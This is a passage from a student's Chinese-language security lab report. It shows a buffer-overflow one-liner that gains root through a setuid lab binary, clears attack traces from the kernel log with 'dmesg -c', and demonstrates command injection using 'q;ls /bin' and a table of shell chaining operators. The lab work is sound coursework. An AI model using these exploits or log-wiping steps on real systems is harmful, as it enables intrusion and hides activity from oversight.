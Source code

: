    ![Lab3-9](E:\VSCODE\UbuntuShare\ICS\UCAS-ICS-Share\Lab3\Pic\Lab3-9.png)

   ![Lab3-10](E:\VSCODE\UbuntuShare\ICS\UCAS-ICS-Share\Lab3\Pic\Lab3-10.png)

   使用命令注入的方式，组织对`/bin/hello`程序的攻击。

   ```bash
   (printf "AAAAAAAABBBBBBBBCCCCCCCC\xa9\x11\x40\0\0\0\0\0\n";sleep 1;echo 'id';)|/bin/hello;
   ```

   攻击结果如下：

   ![Lab3-11](E:\VSCODE\UbuntuShare\ICS\UCAS-ICS-Share\Lab3\Pic\Lab3-11.png)

   可以看到`uid`已被置零，即获得了超级管理员权限。而对于进一步的操作，实验文档并没有给出指示，而笔者将尝试于**问题探究板块**讨论“提升权限后可以做的攻击操作”这一问题。

7. **攻击探测3：日志 II：**

   > 执行 `dmesg`，你能否看到刚刚二进制程序漏洞利用的痕迹？你能否消除这个痕迹？

   具体操作如下：

   ```bash
   dmesg
   ```

   在得到的日志中可以看到攻击痕迹：

   ![image-20231128171936952](C:\Users\20149\AppData\Roaming\Typora\typora-user-images\image-20231128171936952.png)

   ```bash
   dmesg -c
   ```

   通过以上指令可以清空环形缓冲区中的攻击日志。

**二、问题探究**

> 问题：在通过`setuid`提权后，该如何获取任意文件的访问权限？又该如何执行一些有效的攻击？（比如获取位于虚拟机特定目录下的flag文件内容）并擦除攻击痕迹？

1. **命令注入**

   在输入框中输入以下内容

   ```
   q;ls /bin
   ```

   便可查看`/bin`目录下的文件

   ![Lab3-12](E:\VSCODE\UbuntuShare\ICS\UCAS-ICS-Share\Lab3\Pic\Lab3-12.png)

   通过查阅博客[Web安全命令注入漏洞详解](https://blog.csdn.net/qq2539879928/article/details/106635907)，我了解到`Linux`系统下的常见命令注入方式。

   | 示例   | 用法                         |
   | ------ | ---------------------------- |
   | `a;b`  | 执行完再执行b                |
   | `a|b`  | 直接显示b的执行结果          |
   | `a||b` | a错，b才执行                 |
   | `a&b`  | a可真可假，若为假则直接执行b |
   | `a&&b` | a为真才能执行b               |
